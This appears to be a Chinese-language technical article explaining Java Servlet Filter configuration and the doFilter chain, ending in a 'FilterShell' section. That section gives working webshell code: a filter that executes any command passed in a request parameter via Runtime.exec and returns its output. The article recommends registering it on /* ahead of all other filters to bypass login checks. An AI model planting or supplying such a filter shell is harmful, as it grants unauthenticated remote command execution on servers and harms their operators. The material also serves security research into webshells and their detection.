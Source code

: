 # Java Servlet Filter

> [Servlet 3.1 规范 — Filter 主要概念](https://github.com/waylau/servlet-3.1-specification/blob/master/docs/Filtering/6.2%20Main%20Concepts.md)

Filter 是 Servlet 规范中定义的一个 Web 组件，可作用在一个 Servlet 或多个 Servlet 上，以链式的方式顺序调用，其允许改变请求和响应的头信息和内容。常见的过滤器有登录认证过滤器、字符编码过滤器以及加解密过滤器。

## Filter 配置

Filter 可以选择应用的 url-pattern 或 servlet-name，以下两种方式等价

```xml
<filter-mapping>
    <filter-name>Multipe Mappings Filter</filter-name>
    <url-pattern>/foo/*</url-pattern>
    <servlet-name>Servlet1</servlet-name>
    <servlet-name>Servlet2</servlet-name>
    <url-pattern>/bar/*</url-pattern>
</filter-mapping>
```

```java
@WebFilter(
        filterName = "Multipe Mappings Filter",
        urlPatterns = {"/foo/*", "/bar/*"},
        servletNames = {"Servlet1", "Servlet2"}
)
public class MultipeMappingsFilter implements Filter {
    @Override
    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
        // TODO
    }
}
```

## doFilter

Web 容器在启动时，会扫描 Web 应用中所有 Filter 的定义来注册 Filter，并将其封装成 FilterChain，每个 Filter 在 JVM 中只会有一个实例。

Filter 的接口签名如下，其中最重要的就是 doFilter 方法。

1. Web 容器在接收到请求时，会获取 FilterChain 中的第一个过滤器将 request、response 以及 chain 传入 doFilter 方法中进行调用。
2. 当过滤器链中最后一个过滤器被调用，将会访问到最终的 Servlet 或静态资源。
3. 手动在 doFilter 中调用 `chain.doFilter(request, response)`，将会访问 chain 中下一个过滤器。
4. 在 doFilter 中可以选择不调用 `chain.doFilter(request, response)` 则意为阻止当前请求，那么当前过滤器需要负责填充响应对象。

```java
public interface Filter {
    /**
     * 由 Web 容器在初始化 Filter 时调用。
     */
    public void init(FilterConfig filterConfig) throws ServletException;
    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain)throws IOException, ServletException;
    /**
     * 由 Web 容器在卸载 Filter 时调用。
     */
    public void destroy();
}
```

## FilterShell

shell 的目的，就是为了定义一个入口，我们能与 Web 服务器进行交互。在 Filter 中我们就是实现 doFilter 来满足需求，以下定义了一个命令回显的 FilterShell。

1. 一般而言，我们会为 FilterShell 注册 url-pattern 为 `/*`，这样无论访问哪个路径都能被调用到，而且为了绕过登录过滤器，我们会把 FilterShell 注册为  FilterChain 中的第一个过滤器。
2. 交互的入口是 `request.getParameter` 支持两种方式传参。GET/POST 请求发送 `/?paramName=whoami`，也可以发送 POST 请求时使用 `application/x-www-form-urlencoded` 发送 body 参数。`multipart/form-data` 是不支持从 `request.getParameter` 获取参数的。
3. 当 Filter 注册的 url-pattern 为 `/*` 时，我们拿到 cmd 参数，就可以执行命令并填充响应对象 `return` 结束请求，而在拿不到参数的时候就必须调用 `chain.doFilter(servletRequest, servletResponse)`，否则正常的业务就不会被执行。

```java
public class CommandFilter implements Filter {
    public static String paramName;

    @Override
    public void init(FilterConfig filterConfig) throws ServletException {

    }

    @Override
    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
        HttpServletRequest servletRequest = (HttpServletRequest) request;
        HttpServletResponse servletResponse = (HttpServletResponse) response;
        String cmd = servletRequest.getParameter(paramName);
        if (cmd != null) {
            Process exec = Runtime.getRuntime().exec(cmd);
            InputStream inputStream = exec.getInputStream();
            ServletOutputStream outputStream = servletResponse.getOutputStream();
            byte[] buf = new byte[8192];
            int length;
            while ((length = inputStream.read(buf)) != -1) {
                outputStream.write(buf, 0, length);
            }
            return;
        }
        chain.doFilter(servletRequest, servletResponse);
    }

    @Override
    public void destroy() {

    }
}
```
